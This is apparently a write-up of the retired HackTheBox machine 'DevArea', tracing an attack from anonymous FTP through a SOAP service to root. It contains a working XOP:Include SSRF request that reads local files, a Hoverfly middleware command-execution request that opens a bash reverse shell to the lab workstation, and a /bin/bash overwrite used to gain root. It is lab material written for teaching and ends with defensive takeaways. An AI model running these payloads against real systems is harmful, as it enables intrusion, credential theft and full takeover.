



+++
title = "DevArea — following a SOAP service into privileged automation"
date = "2026-03-30"
date_source = "source-created"
platform = "HackTheBox"
box_status = "retired"
difficulty = "Medium"
tags = ["Linux", "SSRF", "SOAP", "Java", "Privilege escalation"]
summary = "An exposed Java archive revealed a SOAP endpoint. XOP request handling exposed service credentials, Hoverfly supplied command execution, and a writable interpreter undermined privileged automation."
draft = false
kind = "solve"
publication_approved = true
+++

## Overview

DevArea combined application analysis with a basic filesystem permission failure. Anonymous FTP exposed a Java service archive, which helped me construct requests to a SOAP endpoint. A server-side request vulnerability revealed Hoverfly credentials; its middleware interface then provided a shell. The final escalation depended on a world-writable `/bin/bash` used by privileged automation.

The chain crossed three boundaries: unauthenticated file access, authenticated command execution, and a privileged task loading a user-writable interpreter. `$IP` identifies the target; callback addresses refer to the lab workstation's VPN interface.

## Letting the application describe its interface

The scan found FTP, SSH, Apache, Jetty on port 8080, and Hoverfly-related services on ports 8500 and 8888. General web enumeration produced little. Anonymous FTP was more useful: `pub/employee-service.jar` exposed the compiled Java application.

```bash
ftp anonymous@devarea.htb
```

In the FTP session:

```text
cd pub
get employee-service.jar
quit
```

Back in the workstation shell, I extracted the archive for inspection:

```bash
mkdir employee-service
cd employee-service
jar xvf ../employee-service.jar
```

Extracting and inspecting its classes revealed `/employeeservice`. Its WSDL described `submitReport` and the report fields: `confidential`, `content`, `department`, and `employeeName`.

```bash
curl 'http://devarea.htb:8080/employeeservice?wsdl'
```

A valid baseline SOAP request succeeded. An external-entity attempt using a `DOCTYPE` failed with a parser error, so I moved to the service's attachment-handling behavior instead of assuming all XML mechanisms behaved alike.

## Proving a server-side request

Apache's [CVE-2022-46364 advisory](https://cxf.apache.org/security-advisories.data/CVE-2022-46364.txt) describes SSRF through the `href` attribute of `XOP:Include` in MTOM requests. I constructed a multipart SOAP request with an `xop:Include` pointing to a controlled HTTP listener.

I saved the following body as `multipart-xxe.txt`, with `10.10.16.138` pointing to my workstation:

```xml
--MIMEBoundary
Content-Type: application/xop+xml; charset=UTF-8; type="text/xml"
Content-Transfer-Encoding: 8bit
Content-ID: <root>

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
                  xmlns:tns="http://devarea.htb/"
                  xmlns:xop="http://www.w3.org/2004/08/xop/include">
  <soapenv:Body>
    <tns:submitReport>
      <arg0>
        <confidential>false</confidential>
        <content><xop:Include href="http://10.10.16.138/test"/></content>
        <department>IT</department>
        <employeeName>Alice</employeeName>
      </arg0>
    </tns:submitReport>
  </soapenv:Body>
</soapenv:Envelope>
--MIMEBoundary--
```

With `python3 -m http.server 80` running in another workstation terminal, I submitted the request. The `start` parameter identifies the MIME part whose `Content-ID` is `<root>`:

```bash
curl -X POST http://devarea.htb:8080/employeeservice \
  -H 'Content-Type: multipart/related; type="application/xop+xml"; start="<root>"; start-info="text/xml"; boundary="MIMEBoundary"' \
  -H 'SOAPAction: ""' \
  --data-binary @multipart-xxe.txt
```

The listener received a request for `/test`. Its 404 response was useful evidence: the requested file did not exist, but the server-side fetch had occurred.



Changing the referenced resource to a local file returned its contents in an encoded form. `/etc/passwd` identified `dev_ryan`. Reading `/etc/systemd/system/hoverfly.service` then exposed the service identity and credentials in `ExecStart`.

For the service-file request, I changed only the inclusion target:

```xml
<xop:Include href="file:///etc/systemd/system/hoverfly.service"/>
```

The response embedded the file as base64 in its `Content:` field. I extracted and decoded it with:

```bash
curl -s -X POST http://devarea.htb:8080/employeeservice \
  -H 'Content-Type: multipart/related; type="application/xop+xml"; start="<root>"; start-info="text/xml"; boundary="MIMEBoundary"' \
  -H 'SOAPAction: ""' --data-binary @multipart-xxe.txt \
  | grep -Po 'Content: \K.*' | cut -d '<' -f1 | base64 -d
```

The service configuration explained both its execution identity and how to authenticate to its dashboard:

```ini
[Service]
User=dev_ryan
Group=dev_ryan
WorkingDirectory=/opt/HoverFly
ExecStart=/opt/HoverFly/hoverfly -add -username admin -password O7IJ27MyyXiU -listen-on-host 0.0.0.0
```

## Recognizing execution inside an error response

The recovered password did not work for `dev_ryan` over SSH. It did authenticate to Hoverfly, where the dashboard reported version 1.11.3.

The [Hoverfly maintainer advisory](https://github.com/SpectoLabs/hoverfly/security/advisories/GHSA-r4h8-hfp2-ggmf) describes command execution through the middleware management endpoint. After logging in as `admin`, I copied the Bearer token from an authenticated dashboard request into `$JWT` and tested an identity command:

```bash
curl -X PUT http://devarea.htb:8888/api/v2/hoverfly/middleware \
  -H "Authorization: Bearer $JWT" \
  -H 'Content-Type: application/json' \
  -d '{"binary":"/bin/bash","script":"id"}'
```

Hoverfly returned a JSON parsing error, but its captured standard output contained the command result:

```text
STDOUT:
uid=1001(dev_ryan) gid=1001(dev_ryan) groups=1001(dev_ryan)
```

The middleware had executed before the application rejected its output format. With a listener running on port 9001, I changed the script to a reverse shell:

```bash
# Workstation listener, in a separate terminal
nc -lvnp 9001
```

```bash
curl -X PUT http://devarea.htb:8888/api/v2/hoverfly/middleware \
  -H "Authorization: Bearer $JWT" \
  -H 'Content-Type: application/json' \
  -d '{"binary":"/bin/bash","script":"bash -i >& /dev/tcp/10.10.16.138/9001 0>&1"}'
```

The callback ran as `dev_ryan`.



## Finding the privilege boundary in Syswatch

`sudo -l` allowed the Syswatch script to run as root, with particular arguments excluded. Although the installed directory was not readable, process monitoring and a `syswatch-v1.zip` archive in the user's home directory exposed clues about its plugins and internal web interface.

I investigated that dashboard and its stored password hash, but those were not the successful escalation path. Checking the interpreter's permissions revealed that `/bin/bash` was world writable.

```bash
sudo -l
ls -la /bin/bash
```

This changed the question: instead of modifying the protected Syswatch script, I could influence the interpreter it used. An initial overwrite encountered `Text file busy`, because Bash was still executing. I established a separate `/bin/sh` callback, then used `lsof /bin/bash` to identify processes holding the executable open. After stopping the relevant processes, the overwrite was possible.

The replacement script needed to run through `/bin/sh` and set the SUID bit on Python when invoked by the root-owned workflow. The payload construction below writes both lines into the file; `printf` also avoids shell history expansion of the shebang:

```sh
# Target, from the separate /bin/sh session
cp /bin/bash /tmp/bash.bak
printf '%s\n' '#!/bin/sh' 'chmod u+s /usr/bin/python3' > /tmp/payload.sh
chmod +x /tmp/payload.sh
cp /tmp/payload.sh /bin/bash
sudo /opt/syswatch/syswatch.sh plugin log_monitor.sh
```

Invoking the permitted Syswatch operation caused the replacement interpreter to execute with root privileges. Python could then set its real UID to zero and start a root shell:

```sh
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

The resulting shell had root privileges. I restored the original Bash binary from the backup and verified the session identity:

```sh
cp /tmp/bash.bak /bin/bash
whoami
```

```text
root
```



## Defensive takeaways

- Restrict access to application archives and remove credentials from service command lines.
- Patch vulnerable SOAP attachment handling and constrain service egress and file access.
- Restrict middleware administration; command output can demonstrate impact even when an API reports failure.
- Verify ownership and write permissions for every interpreter and dependency used by privileged tasks.

## What I learned

The useful turning points were evidence-driven: a callback established SSRF, output inside an error established execution, and interpreter permissions explained how a protected script could still be subverted. The final weakness was in the privileged task's execution chain, even though the task's own script was protected.
